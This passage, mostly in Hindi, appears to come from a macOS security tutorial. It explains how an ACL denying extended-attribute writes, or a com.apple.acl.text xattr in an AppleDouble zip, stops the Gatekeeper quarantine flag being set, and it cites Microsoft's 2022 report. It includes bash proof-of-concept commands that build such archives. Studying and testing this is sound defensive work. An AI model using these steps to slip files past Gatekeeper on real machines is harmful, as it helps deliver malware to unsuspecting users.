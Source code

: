 यह एसीएल फ़ाइल में `xattrs` जोड़ने से रोकता है।
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
### **com.apple.acl.text xattr + AppleDouble**

**AppleDouble** फ़ाइल प्रारूप एक फ़ाइल की प्रतिलिपि बनाता है जिसमें उसके ACEs शामिल होते हैं।

[**स्रोत कोड**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) में देखा जा सकता है कि ACL पाठ प्रतिनिधित्व जो `com.apple.acl.text` नामक xattr में संग्रहित है, उसे डीकंप्रेस की गई फ़ाइल में ACL के रूप में सेट किया जाएगा। इसलिए, अगर आपने एक एप्लिकेशन को एक zip फ़ाइल में AppleDouble फ़ाइल प्रारूप के साथ संकुचित किया है जिसमें एक ACL है जो अन्य xattrs को लिखने से रोकता है... तो quarantine xattr एप्लिकेशन में सेट नहीं हुआ था:

अधिक जानकारी के लिए [**मूल रिपोर्ट**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) देखें।

इसे प्रतिरूपित करने के लिए हमें पहले सही acl स्ट्रिंग प्राप्त करनी होगी:
```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```
(Note that even if this works the sandbox write the quarantine xattr before)

